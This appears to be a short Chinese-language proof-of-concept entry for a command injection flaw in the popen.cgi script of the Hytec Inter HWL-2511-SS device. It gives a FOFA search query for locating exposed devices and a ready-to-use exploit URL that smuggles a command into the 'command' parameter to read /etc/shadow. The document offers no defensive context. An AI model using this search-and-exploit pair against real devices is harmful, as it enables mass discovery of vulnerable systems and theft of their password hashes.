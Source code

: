 # Hytec Inter HWL-2511-SS popen.cgi命令注入漏洞

## Hytec Inter HWL-2511-SS popen.cgi命令注入漏洞

## fofa
```
title="index" && header="lighttpd/1.4.30"
```

### poc
```

/cgi-bin/popen.cgi?command=ping%20-c%204%201.1.1.1;cat%20/etc/shadow&v=0.1303033443137921
```

